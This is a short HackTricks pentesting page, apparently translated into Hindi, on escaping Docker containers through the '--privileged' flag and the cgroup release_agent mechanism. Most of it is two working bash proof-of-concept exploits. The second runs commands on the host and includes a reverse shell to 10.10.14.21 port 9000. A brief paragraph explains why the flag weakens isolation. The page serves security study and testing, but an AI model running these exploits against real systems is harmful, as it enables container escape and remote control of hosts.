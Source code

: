 <details><summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary></details>


# `--privileged` फ़्लैग

{% code title="प्रारंभिक PoC" %}
```bash
# spawn a new container to exploit via:
# docker run --rm -it --privileged ubuntu bash

d=`dirname $(ls -x /s*/fs/c*/*/r* |head -n1)`
mkdir -p $d/w;echo 1 >$d/w/notify_on_release
t=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
touch /o;
echo $t/c >$d/release_agent;
echo "#!/bin/sh $1 >$t/o" >/c;
chmod +x /c;
sh -c "echo 0 >$d/w/cgroup.procs";sleep 1;cat /o
```
{% code title="दूसरा प्रमाण" %}
```bash
# On the host
docker run --rm -it --cap-add=SYS_ADMIN --security-opt apparmor=unconfined ubuntu bash

# In the container
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x

echo 1 > /tmp/cgrp/x/notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/cgrp/release_agent

#For a normal PoC =================
echo '#!/bin/sh' > /cmd
echo "ps aux > $host_path/output" >> /cmd
chmod a+x /cmd
#===================================
#Reverse shell
echo '#!/bin/bash' > /cmd
echo "bash -i >& /dev/tcp/10.10.14.21/9000 0>&1" >> /cmd
chmod a+x /cmd
#===================================

sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
head /output
```
{% endcode %}

`--privileged` फ्लैग में बड़ी सुरक्षा समस्याओं को प्रस्तुत करता है, और इस उपयोग का उपयोग करने के लिए एक डॉकर कंटेनर शुरू करने की आवश्यकता होती है। इस फ्लैग का उपयोग करते समय, कंटेनरों को सभी उपकरणों तक पूर्ण पहुंच होती है और उन्हें seccomp, AppArmor और Linux capabilities की प्रतिबंधन से वंचित कर दिया जाता है।
